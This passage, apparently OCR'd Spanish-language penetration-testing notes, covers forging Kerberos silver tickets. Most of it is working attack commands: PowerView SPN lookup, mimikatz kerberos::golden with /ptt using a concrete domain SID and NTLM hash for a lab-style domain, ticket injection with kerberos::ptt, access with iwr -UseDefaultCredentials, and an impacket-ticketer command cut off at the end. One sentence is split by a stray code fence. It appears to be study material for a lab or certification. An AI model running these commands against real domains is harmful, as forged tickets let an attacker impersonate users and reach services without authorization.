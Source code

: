 	# Aparece en el SPN. Supongamos servicio iss_service
	 Get-DomainUser  -spn "*iis_*" | select  serviceprincipalname 
	# resultado
	{HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80}
	# En este caso el nombre del servicio sería HTTP
	```
7. **Usuario que suplantas (opcional)** 
	```
	Administrator
	```
### Creación de tiquet
#### Inyección directa - mimikatz
- Inyección en memoria con mimikatz
	```powershell
	kerberos::golden /sid:<SID_DEL_DOMINIO> /domain:<NOMBRE_DOMINIO> /ptt /target:<NOMBRE_SERVIDOR> /service:<NOMBRE_SERVICIO> /rc4:<HASH_NTLM> /user:<USUARIO>
	```
- Ejemplo:
	```powershell
	kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
	```
- Podemos comprobar que el ticket está cargado en memoria escribiendo 
	```powershell
	klist
	```
- Utilización del servicio: `UseDefaultCredentials`. Si añadimos la flag `-UseDefaultCredentials` al servicio que estemos ejecutando, el servidor exige autenticación kerberos (y los tickets que hay en memoria)
	```powershell
	iwr -UseDefaultCredentials http://web04
	```
#### Creación de ticket - mimikatz
- Creación del ticket
	```powerview
	kerberos::golden /sid:<SID_DEL_DOMINIO> /domain:<NOMBRE_DOMINIO> /target:<NOMBRE_SERVIDOR> /service:<NOMBRE_SERVICIO> /rc4:<HASH_NTLM> /user:<USUARIO> /ticket:ticket.kirbi
	```
- Inyección del ticket
	```powershell
	kerberos::ptt silver_ticket.kirbi
	```
- Utilización del servicio: `UseDefaultCredentials`. Si añadimos la flag `-UseDefaultCredentials` al servicio que estemos ejecutando, el servidor exige 
```
- 
- autenticación kerberos (y los tickets que hay en memoria)
```
	```powershell
	iwr -UseDefaultCredentials http://web04
	```
#### Creación del ticket - `impacket-ticketer` + uso desde linux
- Creación del ticket (RID opcional)
	```bash
	impacket-ticketer -nthash <NTLM_HASH> -domain-sid <SID_DOMINIO> -domain <DOMINIO> -spn <SPN> -user-id <RID> <USUARIO_SUPLANTADO>